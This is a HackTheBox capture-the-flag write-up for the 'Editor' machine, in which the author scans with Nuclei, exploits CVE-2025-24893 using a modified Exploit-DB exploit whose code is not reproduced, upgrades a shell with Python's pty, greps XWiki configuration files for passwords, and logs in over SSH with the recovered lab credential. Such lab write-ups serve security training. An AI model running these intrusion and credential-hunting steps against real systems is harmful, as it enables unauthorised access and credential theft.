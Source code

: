 # Editor - HackTheBox 

## 1.2 Nuclei scan for vulnerabilities

Performed to identify known vulnerabilities in the machine's HTTP service:

```bash
nuclei -u http://wiki.editor.htb -o nuclei.txt
```

* The scan identified the vulnerability CVE-2025-24893 (details looked up on Exploit-DB)

---

## 2. Exploitation

### 2.1 Exploit adjustment

Based on the exploit found at [Exploit-DB #52136](https://www.exploit-db.com/exploits/52136), it was necessary to modify the HTTPS address to work correctly against the target.

### 2.2 Interactive shell access

After obtaining a basic shell, Python was used to spawn a more comfortable interactive shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

## 3. Enumeration

### 3.1 User directories

Listing the `/home` directory to discover system users:

```bash
ls /home
```

Output:

```
oliver
```

### 3.2 Searching for passwords in configuration files

Searched for possible passwords inside the `/etc/xwiki` directory:

```bash
grep -iR "pass" /etc/xwiki/*
```

Found the password:

```
theEd1t0rTeam99
```

---

## 4. SSH access

With the discovered user and obtained password, it was possible to connect via SSH:

```bash
ssh -4 oliver@editor.htb
```

* `-4`: force IPv4 connection
* User: `oliver`
* Password: `theEd1t0rTeam99`

---
